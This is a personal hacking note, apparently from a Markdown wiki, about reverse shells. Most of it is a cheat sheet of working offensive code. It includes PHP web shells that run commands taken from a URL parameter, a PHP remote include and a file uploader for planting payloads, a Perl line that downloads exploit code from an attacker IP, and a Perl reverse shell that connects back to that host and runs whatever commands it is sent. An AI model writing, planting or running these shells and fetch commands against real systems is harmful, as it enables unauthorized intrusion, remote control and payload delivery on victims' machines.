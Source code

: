 is:: [[note]]
from:: [[hacking]]

# Notes
Most systems are protected by firewalls restricting inbound traffic. A reverse shell bypasses this by making *outbound* connections from the system to a hacker-controlled one.

## Links
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
http://roo7break.co.uk/?p=215
[Bernardo Dag: Reverse shells one-liners](https://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html)
[lanmaster53.com](https://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/)
 [http://laudanum.secureideas.net/](http://laudanum.secureideas.net/)
http://pentestmonkey.net/blog/post-exploitation-without-a-tty

# Shell One-liners

```
PHP one-liners

<?php echo system($_GET['cmd']); ?>

<?php echo shell_exec($_GET['cmd']); ?>

<?php include "http://192.168.30.21/php-reverse-shell443.php"; ?>
```

This will execute $cmd in the background (no cmd window) without PHP waiting for it to finish, on both Windows and Unix.
```
<?php
function execInBackground($cmd) {
if (substr(php_uname(), 0, 7) == "Windows"){
pclose(popen("start /B ". $cmd, "r"));
}
else {
exec($cmd . " > _dev_null &");
}
}
?>
```

Short php uploader
```
<?php
try {
ini_set('allow_url_fopen', true);
$data = file_get_contents($_GET['url']);
$handle = fopen($_GET['dest'], "w");
fwrite($handle, $data);
fclose($handle);
echo 'Download succeeded';
} catch (Exception $e) {
echo 'Caught exception: ',  $e->getMessage(), "\n";
}
?>
```

Use perl when no wget
```
perl -e 'use File::Fetch; my $ff = File::Fetch->new(uri => "http://192.168.30.21/28718.c"); my $where = $ff->fetch() or die $ff->error;'
```

Need to test, but should create a reverse shell in Perl on both Linux and Windows
 # Create reverse shell in background
```
my $pid = fork;
if ($pid == 0) {
my $c=new IO::Socket::INET(PeerAddr=>"192.168.30.21:443");
STDIN->fdopen($c, 'r');
STDOUT->fdopen($c, 'w');
STDERR->fdopen($c, 'w');
while (<>) {
system($_);
}
}
```

